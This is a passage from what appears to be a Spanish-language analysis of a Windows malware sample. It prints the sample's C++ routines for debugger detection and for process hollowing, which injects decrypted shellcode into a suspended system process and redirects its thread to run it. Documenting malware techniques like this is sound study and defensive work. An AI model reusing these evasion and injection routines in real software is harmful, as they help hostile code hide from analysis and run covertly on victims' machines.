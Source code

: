 #### 2.3 Detección de Depuradores
```cpp
bool IsDebuggerPresentCustom() {
    return ::IsDebuggerPresent() != FALSE;
}

bool CheckRemoteDebuggerPresent() {
    HANDLE hProcess = GetCurrentProcess();
    BOOL debuggerPresent = FALSE;
    CheckRemoteDebuggerPresent(hProcess, &debuggerPresent);
    return debuggerPresent != FALSE;
}
```

### 3. Técnicas de Inyección

#### 3.1 Process Hollowing
Esta es la técnica más sofisticada implementada por el malware:

```cpp
bool ProcessHollowing(unsigned char* shellcode, DWORD shellcodeSize) {
    // 1. Crear el proceso en estado suspendido
    if (!CreateProcessA(systemPath, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, 
                        NULL, NULL, &si, &pi)) {
        return false;
    }
    
    // 2. Obtener la dirección base de la imagen del proceso
    PVOID imageBaseAddress;
    if (!GetProcessImageBase(pi.hProcess, &imageBaseAddress)) {
        return false;
    }
    
    // 3. Leer la cabecera PE del proceso
    // ...
    
    // 4. Liberar la memoria del proceso original
    if (!VirtualFreeEx(pi.hProcess, imageBaseAddress, 0, MEM_RELEASE)) {
        return false;
    }
    
    // 5. Asignar nueva memoria para el shellcode
    pNewImageBase = VirtualAllocEx(pi.hProcess, imageBaseAddress, shellcodeSize, 
                                  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    // 6. Escribir el shellcode en la memoria del proceso
    if (!WriteProcessMemory(pi.hProcess, pNewImageBase, decryptedShellcode, 
                           shellcodeSize, NULL)) {
        return false;
    }
    
    // 7. Modificar el contexto del hilo para apuntar al nuevo código
    CONTEXT context;
    context.ContextFlags = CONTEXT_FULL;
    GetThreadContext(pi.hThread, &context);
    
#ifdef _WIN64
    context.Rcx = (DWORD64)pNewImageBase;
#else
    context.Eax = (DWORD)pNewImageBase;
#endif
    
    // 8. Actualizar el contexto del hilo
    SetThreadContext(pi.hThread, &context);
```